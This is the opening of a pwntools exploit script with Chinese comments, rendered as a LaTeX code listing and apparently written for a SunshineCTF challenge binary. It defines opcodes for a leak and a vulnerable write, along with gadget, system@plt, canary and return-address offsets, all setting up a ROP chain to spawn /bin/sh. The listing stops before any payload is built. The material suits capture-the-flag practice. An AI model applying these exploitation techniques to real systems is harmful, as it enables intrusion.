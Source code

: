 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ sys, time}
\CommentTok{\# from pwn import * 會吃掉多餘的命令列參數（pwnlib.args 的行為），}
\CommentTok{\# 所以 REMOTE 這個參數必須在 import 之前就先讀走}
\NormalTok{WANT\_REMOTE }\OperatorTok{=} \BuiltInTok{len}\NormalTok{(sys.argv) }\OperatorTok{\textgreater{}} \DecValTok{1} \KeywordTok{and}\NormalTok{ sys.argv[}\DecValTok{1}\NormalTok{].upper() }\OperatorTok{==} \StringTok{\textquotesingle{}REMOTE\textquotesingle{}}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context.arch }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}      \CommentTok{\# 讓 pwntools 用 64{-}bit 規則}
\NormalTok{context.log\_level }\OperatorTok{=} \StringTok{\textquotesingle{}info\textquotesingle{}}
\NormalTok{BIN }\OperatorTok{=} \StringTok{\textquotesingle{}./homemaker\textquotesingle{}}
\NormalTok{HOST, PORT }\OperatorTok{=} \StringTok{\textquotesingle{}chal.sunshinectf.games\textquotesingle{}}\NormalTok{, }\DecValTok{26008}

\NormalTok{MAGIC     }\OperatorTok{=} \BaseNTok{0x1337c35f}       \CommentTok{\# validate() 接受的鑰匙卡魔數}
\NormalTok{OP\_AUTH   }\OperatorTok{=} \DecValTok{1}                \CommentTok{\# 鑰匙卡驗證}
\NormalTok{OP\_APPEND }\OperatorTok{=} \DecValTok{2}                \CommentTok{\# 有漏洞的寫入}
\NormalTok{OP\_LEAK   }\OperatorTok{=} \DecValTok{3}                \CommentTok{\# 洩漏 capacity bytes 的堆疊}
\NormalTok{OP\_EJECT  }\OperatorTok{=} \DecValTok{4}                \CommentTok{\# 離開迴圈 → main 返回 → 觸發 ROP}

\NormalTok{OFF\_RET\_ADDR\_IN\_MAIN }\OperatorTok{=} \BaseNTok{0x1a9f}   \CommentTok{\# 洩漏到的回傳位址（= PIE + 0x1a9f）}
\NormalTok{OFF\_POP\_RDI\_RET      }\OperatorTok{=} \BaseNTok{0x12aa}   \CommentTok{\# pop rdi; ret（藏在 0x1337c35f 立即值裡）}
\NormalTok{OFF\_SYSTEM\_PLT       }\OperatorTok{=} \BaseNTok{0x10c0}   \CommentTok{\# system@plt}
\NormalTok{OFF\_RET              }\OperatorTok{=} \BaseNTok{0x101a}   \CommentTok{\# 單獨一個 ret（.init 的結尾）}
\NormalTok{OFF\_RXBUF            }\OperatorTok{=} \BaseNTok{0x4864}   \CommentTok{\# .bss 接收緩衝區（payload 起點）}

\NormalTok{STATE\_CANARY    }\OperatorTok{=} \BaseNTok{0x108}      \CommentTok{\# 由 gdb 量出來的 state 內偏移}
\NormalTok{STATE\_SAVED\_RBP }\OperatorTok{=} \BaseNTok{0x110}
\NormalTok{STATE\_RETADDR   }\OperatorTok{=} \BaseNTok{0x118}
\NormalTok{SH\_OFF          }\OperatorTok{=} \BaseNTok{0x1f0}      \CommentTok{\# "/bin/sh" 放在 payload 的哪裡}
\end{Highlighting}
\end{Shaded}
\end{document}
